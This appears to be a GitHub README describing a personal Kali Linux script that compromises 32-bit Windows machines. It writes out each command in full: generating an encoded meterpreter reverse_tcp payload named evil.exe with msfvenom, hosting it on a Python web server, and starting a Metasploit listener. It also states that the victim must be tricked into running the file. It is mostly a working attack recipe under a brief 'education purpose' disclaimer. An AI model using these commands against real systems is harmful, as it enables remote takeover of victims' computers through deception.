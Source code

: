 # PWN
This section will contain scripts that I wrote to gain ownership to a machine.

|Name|Description|
|----|-----------|
|pwnWindows_x86.sh| Get a meterpreter shell from 32bit windows with evil.exe|

### pwnWindows_x86.sh
This is a script to be used in Kali linux where the tools are already preinstalled.
1. Getting own IP and port
    ```sh
    attackerip=`ifconfig eth0 | grep netmask | cut -d' ' -f10`
    attackerport=9107
    ```
    The backtick is equivalent to bash $(...) 
    
2. Generate evil.exe
    ```sh
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=$attackerip   LPORT=$attackerport -b '\x00\x0a\x0d' -f exe --arch x86 --platform windows -e x86/shikata_ga_nai -i 5 > evil.exe
    ```
    msfvenom is a very useful payload generator and encoder.
    
3. Host evil.exe on web server
    ```sh
    gnome-terminal --tab -e "python -m SimpleHTTPServer 80"
    ```
    A very simple way to start a web server with python2.7 
    `gnome-terminal --tab` was used to open up a separate terminal tab so that I can watch the web server on a separate terminal.
    
4. start metasploit meterpreter listener
    ```sh
    msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST $attackerip; set LPORT $attackerport; run;"
    ```
    Now that the meterpreter is listening, we will need to trick the victim to download and run this malicious `evil.exe`

**This is just for education purpose, hence the obvious file naming without much trickery.**
